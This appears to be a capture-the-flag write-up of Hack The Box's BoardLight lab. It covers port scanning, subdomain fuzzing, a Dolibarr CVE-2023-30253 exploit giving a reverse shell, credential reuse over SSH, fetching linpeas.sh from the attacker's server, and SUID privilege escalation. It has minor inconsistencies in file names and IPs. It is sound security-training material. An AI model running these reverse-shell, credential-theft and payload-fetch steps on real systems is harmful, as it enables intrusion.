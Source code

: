 <h1>Enumeration</h1>
<p>We begin the enumeration of the victim machine by running a ping to the target IP 10.10.11.11 to check if the machine is active:</p>
<p align="center">
  <img src="https://github.com/alvaroogs013/WriteUp-HTB-BoardLight/assets/131161276/9d4b7303-ca0f-4a1e-9f72-f86a23caea0e" alt="Ping result">
</p>
<p>As we can see, the machine is active since it responds to the ping, and by the ttl=63, we can deduce that we are dealing with a Linux machine.</p>
<p>Now we will perform a simple scan with nmap to see which ports are open and which services are running on them:</p>

```bash
sudo nmap -p- -sV -sS --min-rate 5000 -n 10.10.11.11 -oN scan.txt
```

<p align="center">
  <img src="https://github.com/alvaroogs013/WriteUp-HTB-BoardLight/assets/131161276/e3c448fb-1c9d-4ca8-b66f-7a5373852a0d" alt="Nmap scan results">
</p>
<p>We can see that ports 22 (SSH) and 80 (HTTP) are open and running an OpenSSH server and an Apache web server respectively, so we will try to access the Apache server through the browser:</p>
<p align="center">
  <img src="https://github.com/alvaroogs013/WriteUp-HTB-BoardLight/assets/131161276/0f393783-6013-45c9-9e85-b03800732a86" alt="Apache server">
</p>
<p>As we can see, the server quickly resolves the request through the IP and we reach this destination page. Let's take a look to see if we find anything interesting...</p>
<p>Since it is a PHP-based website, we can try to exploit some type of LFI using a PHP wrapper from the site's URL. Specifically, if we send an empty form found in the footer of the page, we see that a request is made (<code>10.10.11.11/index.php?</code>), let's see if we can exploit it:</p>
<p align="center">
  <img src="https://github.com/alvaroogs013/WriteUp-HTB-BoardLight/assets/131161276/a3d5eb64-457f-428d-be39-8eb23d05f860" alt="Empty form request">
</p>
<p>As we can see in the form request, no data is sent, and it simply reloads the same contact page:</p>
<p align="center">
  <img src="https://github.com/alvaroogs013/WriteUp-HTB-BoardLight/assets/131161276/a3d5eb64-457f-428d-be39-8eb23d05f860" alt="Contact form response">
</p>
<p>Since we can't exploit an LFI or a potential SSRF, we will continue the enumeration process by fuzzing to find potentially vulnerable directories or subdomains. An interesting fact is that we find a contact email in the footer of the web page suggesting the existence of a domain <code>board.htb</code>.</p>
<p align="center">
  <img src="https://github.com/alvaroogs013/WriteUp-HTB-BoardLight/assets/131161276/e7b003d9-e67c-40d4-8d33-19698f4402eb" alt="Email contact">
</p>
<p>So we can add this domain to our <code>/etc/hosts</code> as if we test it in the browser, it directs us to the same web server.</p>
<p align="center">
  <img src="https://github.com/alvaroogs013/WriteUp-HTB-BoardLight/assets/131161276/11714c8e-07da-4d02-a67f-3eb37fabba9c" alt="Adding domain to hosts">
</p>
<p>Now, let's proceed with fuzzing. We will use the ffuf tool and a SecList dictionary to see what we find:</p>

```bash
sudo ffuf -u http://FUZZ.board.htb -t 200 -c -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
```

<p>This command with ffuf finds the subdomain <code>crm</code>, so <code>crm.board.htb</code> exists. Let's add it to the <code>/etc/hosts</code> and access it to see what it contains:</p>
<p align="center">
  <img src="https://github.com/alvaroogs013/WriteUp-HTB-BoardLight/assets/131161276/18bc9fb8-748e-4183-82f4-0734f35eb6d8" alt="Subdomain crm">
  <img src="https://github.com/alvaroogs013/WriteUp-HTB-BoardLight/assets/131161276/d69fa083-1a2a-417c-84f0-0ac22077311b" alt="CRM login page">
</p>
<p>In this subdomain, we can access a login page for the well-known customer relationship manager, Dolibarr, version 17.0.0.</p>
<p align="center">
  <img src="https://github.com/alvaroogs013/WriteUp-HTB-BoardLight/assets/131161276/3b79efd3-dd75-45d2-b338-33ed3b440877" alt="Dolibarr login">
</p>
<p>If we search for some information on Google about this software and version, we can see that there is an associated vulnerability that allows us to exploit remote code execution (RCE) and grant us a reverse shell. The vulnerability is reported as CVE-2023-30253 and the GitHub repository found for this vulnerability, containing a Python script, is the following: <a href="https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253">https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253</a>.</p>
<p>So, let's download and run the Python script to grant us a reverse shell as follows:</p>

```bash
# On our local machine:
nc -lvnp 9001
# On the victim machine:
python3 exploit.py http://crm.board.htb admin admin 10.10.14.28 9001
```

<p align="center">
  <img src="https://github.com/alvaroogs013/WriteUp-HTB-BoardLight/assets/131161276/2c3a47f3-58b0-4fa2-b995-993ec3ad8055" alt="Exploit execution">
  <img src="https://github.com/alvaroogs013/WriteUp-HTB-BoardLight/assets/131161276/9892eec0-9b0e-4451-a8f0-0a0cb4f1e665" alt="Reverse shell">
</p>
<p>If inside the victim machine we move back a couple of directories looking for something interesting, we can stop at the path <code>/htbdocs</code>, and if we list the contents with <code>ls -la</code>, we can find a file <code>conf.php</code> that may be interesting for these types of servers since it usually contains users and credentials of some database being used.</p>
<p align="center">
  <img src="https://github.com/alvaroogs013/WriteUp-HTB-BoardLight/assets/131161276/72d83f29-d067-4ec4-8e2d-c65de7956112" alt="Config directory">
  <img src="https://github.com/alvaroogs013/WriteUp-HTB-BoardLight/assets/131161276/c5118307-7d72-42ac-a226-935d1a332bce" alt="Config file">
</p>
<p>And indeed, inside <code>config.php</code> we find access credentials for a MySQL database.</p>
<p>If we try to access the MySQL database, the system tells us that we do not have permission to access it as the <code>www-data</code> user, so we will need to find another way in.</p>
<p align="center">
  <img src="https://github.com/alvaroogs013/WriteUp-HTB-BoardLight/assets/131161276/fad76804-5738-4fb6-a192-d1f51ec81984" alt="MySQL access denied">
</p>
<p>Going back to the <code>/home</code> directory, we find the directory of a system-level user named <code>larissa</code>, so we can try to log in via SSH with this user and the credential obtained in <code>conf.php</code> using the previous Python script.</p>
<p align="center">
  <img src="https://github.com/alvaroogs013/WriteUp-HTB-

BoardLight/assets/131161276/1f8a1f5d-d523-45a5-93f2-93128b843ca7" alt="SSH login">
</p>
<p>And once inside the <code>larissa</code> user, we can see the first flag, <code>user.txt</code>. Now let's go for the root flag.</p>
<p align="center">
  <img src="https://github.com/alvaroogs013/WriteUp-HTB-BoardLight/assets/131161276/33b7cd4b-0fe7-413c-8622-544562ffdf1c" alt="User flag">
</p>
<p>Since we don't have any elevated permissions with this user, we will download the <code>linpeas.sh</code> script to perform a thorough scan for any vulnerabilities.</p>
<p>Download the script from: <a href="https://github.com/peass-ng/PEASS-ng/releases/tag/20240616-43d0a061">https://github.com/peass-ng/PEASS-ng/releases/tag/20240616-43d0a061</a></p>

# On our local machine:
python3 -m http.server 3333
# On the victim machine:
wget 10.10.14.101:3333/linpeas.sh

<p align="center">
  <img src="https://github.com/alvaroogs013/WriteUp-HTB-BoardLight/assets/131161276/dbf73b98-0b5b-4463-9fef-5f71d32425a2" alt="Downloading linpeas.sh">
</p>
<p>And finally, we give it permissions and execute it:</p>

chmod +x linpeas.sh
./linpeas.sh

<p align="center">
  <img src="https://github.com/alvaroogs013/WriteUp-HTB-BoardLight/assets/131161276/0611dbdb-e80f-4ac3-ab16-af3659aa08f9" alt="Linpeas execution">
</p>
<p>As we can see, the script reports several vulnerabilities. Specifically, if we go to the section of files with interesting permissions, we can find 4 files that indicate unknown SUID binaries, which we can exploit.</p>
<p align="center">
  <img src="https://github.com/alvaroogs013/WriteUp-HTB-BoardLight/assets/131161276/59237ecc-7b2e-4d66-af6f-dbb724e328ec" alt="Linpeas findings">
</p>
<p>Specifically, if we search for <code>enlightenment suid exploit</code>, there is a repository on GitHub, so let's download the exploit and try it:</p>
<p align="center">
  <img src="https://github.com/alvaroogs013/WriteUp-HTB-BoardLight/assets/131161276/e8202daf-eb53-4715-b933-9f1b30ba5df8" alt="Exploiting SUID">
</p>
<p>And finally, we have a terminal with the root user, we find the flag in <code>/root</code>, and we have completed BoardLight. Congratulations!</p>
<p align="center">
  <img src="https://github.com/alvaroogs013/WriteUp-HTB-BoardLight/assets/131161276/2d83e789-d114-4e3e-8bb7-fb4d713b81a7" alt="Root flag">
</p>
